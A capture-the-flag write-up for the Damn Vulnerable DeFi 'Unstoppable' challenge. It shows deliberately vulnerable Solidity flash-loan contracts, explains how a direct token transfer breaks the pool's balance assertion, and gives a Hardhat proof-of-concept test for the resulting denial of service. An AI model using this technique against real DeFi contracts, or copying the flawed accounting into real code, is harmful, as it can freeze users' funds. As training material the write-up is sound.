 # Damn Vulnerable Defi: 1. Unstoppable

> There's a lending pool with a million DVT tokens in balance, offering flash loans for free.
> If only there was a way to attack and stop the pool from offering flash loans... You start with 100 DVT tokens in balance.

**Objective of CTF:**

- Break the flash loan (denial of service) such that no one will be able to take loans anymore.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

interface IReceiver {
  function receiveTokens(address tokenAddress, uint256 amount) external;
}

/**
 * @title ReceiverUnstoppable
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ReceiverUnstoppable {
  UnstoppableLender private immutable pool;
  address private immutable owner;

  constructor(address poolAddress) {
    pool = UnstoppableLender(poolAddress);
    owner = msg.sender;
  }

  // Pool will call this function during the flash loan
  // This will give `amount` tokens from this contract back to the pool
  function receiveTokens(address tokenAddress, uint256 amount) external {
    require(msg.sender == address(pool), "Sender must be pool");
    require(IERC20(tokenAddress).transfer(msg.sender, amount), "Transfer of tokens failed");
  }

  function executeFlashLoan(uint256 amount) external {
    require(msg.sender == owner, "Only owner can execute flash loan");
    pool.flashLoan(amount);
  }
}

/**
 * @title UnstoppableLender
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract UnstoppableLender is ReentrancyGuard {
  IERC20 public immutable damnValuableToken;
  uint256 public poolBalance;

  constructor(address tokenAddress) {
    require(tokenAddress != address(0), "Token address cannot be zero");
    damnValuableToken = IERC20(tokenAddress);
  }

  function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");

    // transfer token from sender, sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
  }

  function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);

    // send tokens to the borrower
    damnValuableToken.transfer(msg.sender, borrowAmount);

    // receives the lent tokens back from the borrower
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
  }
}
```

## The Attack

Let us examine how this flash loan works. Users are expected to deposit tokens with `depositTokens` function, which calls `transferFrom` function as we know from ERC20. Of course, user must have approved the lender tokens so that it can call `transferFrom`.When someone wants to take a loan, they simply call `flashLoan` to request a given amount.

The problematic looking line is the following:

- `assert(poolBalance == balanceBefore)`

The pool balance is not taken from `token.balanceOf(poolAddress)` but instead kept within the lender storage with the `poolBalance` variable. You may have heard of "single source of truth" practice in programming; here, we have two different variable that are tracking the pool balance.

Unfortunately, `poolBalance` does not take into account transfers via direct token functions, without using the `depositTokens` function! So, if we were to transfer some tokens via `transfer` function of ERC20, that will break assertion at the aforementioned line, rendering the `flashLoan` function useless.

## Proof of Concept

Here is a Hardhat test to demonstrate the attack.

```typescript
describe('Damn Vulnerable Defi 1: Unstoppable', () => {
  let owner: SignerWithAddress;
  let attacker: SignerWithAddress;
  let victim: SignerWithAddress;

  let token: DamnValuableToken;
  let pool: UnstoppableLender;
  let receiverContract: ReceiverUnstoppable;

  const TOKENS_IN_POOL = ethers.utils.parseEther('1000000'); // pool has 1M * 10**18 tokens
  const INITIAL_ATTACKER_TOKEN_BALANCE = ethers.utils.parseEther('100'); // attacker has 100 tokens

  before(async () => {
    [owner, attacker, victim] = await ethers.getSigners();
    token = await ethers.getContractFactory('DamnValuableToken', owner).then(f => f.deploy());
    pool = await ethers.getContractFactory('UnstoppableLender', owner).then(f => f.deploy(token.address));
    receiverContract = await ethers.getContractFactory('ReceiverUnstoppable', victim).then(f => f.deploy(pool.address));

    // deposit tokens to the pool
    await token.approve(pool.address, TOKENS_IN_POOL);
    await pool.depositTokens(TOKENS_IN_POOL);
    expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL);

    // give attacker balance
    await token.transfer(attacker.address, INITIAL_ATTACKER_TOKEN_BALANCE);
    expect(await token.balanceOf(attacker.address)).to.equal(INITIAL_ATTACKER_TOKEN_BALANCE);

    // show it's possible for some other user to take out a flash loan
    await receiverContract.executeFlashLoan(10);
  });

  it('should rek the flash loan', async () => {
    // send some money without `deposit`
    token.connect(attacker).transfer(pool.address, ethers.utils.parseEther('1'));
  });

  after(async () => {
    // it should no longer be possible to execute flash loans
    await expect(receiverContract.executeFlashLoan(10)).to.be.reverted;
  });
});
```
